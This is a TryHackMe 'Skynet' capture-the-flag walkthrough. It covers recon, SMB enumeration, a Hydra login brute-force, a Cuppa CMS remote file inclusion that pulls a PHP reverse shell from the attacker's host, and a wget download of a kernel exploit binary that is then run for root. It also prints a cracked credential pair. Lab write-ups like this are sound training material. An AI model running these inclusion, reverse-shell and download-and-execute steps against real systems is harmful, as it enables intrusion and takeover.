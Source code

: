# Skynet - TryHackMe

## Recon Stage

Start with an nmap:

```
┌──(kali㉿kali)-[~/TryHackMe/Skynet]
└─$ nmap -sV -sC -Pn 10.10.223.17
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 09:18 EST
Nmap scan report for 10.10.223.17
Host is up (0.022s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES AUTH-RESP-CODE SASL CAPA PIPELINING UIDL TOP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more SASL-IR LOGIN-REFERRALS LOGINDISABLEDA0001 capabilities IMAP4rev1 LITERAL+ have OK post-login Pre-login listed ENABLE IDLE ID
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m51s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2021-03-13T08:18:27-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-13T14:18:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.77 seconds
```

Interested with the webserver, so I take a look and am presented with this:

![](2021-03-13-09-19-54.png)

Checked the source, nothing interesting there. I'm opting to use gobuster here to see if we can find some interesting directories:

```
┌──(kali㉿kali)-[~/TryHackMe/Skynet]
└─$ gobuster dir -u http://10.10.223.17 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

One directory it found was /squirrelmail, so I open that up and looks like they have a version of squirrelmail running:

![](2021-03-13-09-22-41.png)

![](2021-03-13-09-24-09.png)

Looks like this version has a local file inclusion. I test this:

![](2021-03-13-09-28-11.png)

Hmmh, seems not to be working for unauthorised users...

Nmap also found an SMB share, so I will run a scan to see if we can enumerate this to find any possible username to bruteforce:

![](2021-03-13-09-32-09.png)

Well as it turns out anonymous access is available, so instead I connect to the smb share:

```
──(kali㉿kali)-[~]
└─$ smbclient //10.10.223.17/anonymous 
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019

                9204224 blocks of size 1024. 5797120 blocks available
```

After looking through the logs, one seems to contain a list of possible passwords.. interesting, let me use these as the password list for a brute-force:

![](2021-03-13-09-44-01.png)

Okay, now I check for the POST parameters:

![](2021-03-13-09-33-41.png)

And run the Hydra bruteforce:

![](2021-03-13-09-45-50.png)

Great! We found the username and password:
milesdyson:cyborg007haloterminator

Now, logging into the email server, we find an email with the users' SMB password:

![](2021-03-13-09-47-35.png)

I then create a credentials file for smbclient:

![](2021-03-13-09-55-17.png)

And login to milesdyson's share:

![](2021-03-13-09-55-33.png)

After navigating, I found a file under notes/important.txt which includes this:

![](2021-03-13-09-57-50.png)

The front-page for the 'beta cms' looks as such:

![](2021-03-13-09-58-24.png)

I run a gobuster and find a directory /administrator/ which brings me to this:

![](2021-03-13-10-48-03.png)

I check with searchsploit for Cuppa CMS to see if there are any public vulnerabilities:

![](2021-03-13-10-49-23.png)

Reading through the txt tells us about a local/remote file inclusion exploit on the URI `/alerts/alertConfigField.php?urlConfig=`

I decide to use php-reverse-shell (available [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)), and edit it with my local ip and port 4444, and then start up a python webserver using `python -m SimpleHTTPServer` in order to include it on the site.

Before running, I startup my listener on port 4444 using netcat, and then run the inclusion exploit:

`http://10.10.223.17/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.2.93:8000/php-reverse-shell.php`

And we have a terminal!

![](2021-03-13-11-01-17.png)

I check the kernel version for possible privesc exploits:

```
$ uname -a
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

Doing a search, I find an exploit for this kernel version CVE 2017-1000112 in the form of a c file. I check, and www-data has access to wget! Okay, so let us create and compile this binary on my localmachine and upload it:

![](2021-03-13-11-17-21.png)

And then download it and execute on the victim:


```
$ wget http://10.9.2.93:8000/esc
--2021-03-13 10:14:42--  http://10.9.2.93:8000/esc
Connecting to 10.9.2.93:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36192 (35K) [application/octet-stream]
Saving to: 'esc'

     0K .......... .......... .......... .....                100% 1.14M=0.03s

2021-03-13 10:14:42 (1.14 MB/s) - 'esc' saved [36192/36192]
$ chmod +x esc
$ ./esc   
bash: cannot set terminal process group (1252): Inappropriate ioctl for device
bash: no job control in this shell
root@skynet:/var/www/html/45kra24zxs28v3yd/administrator# whoami
whoami
root
```

And now we have root! Thanks outdated kernels!

Now I am free to find the flags in /root


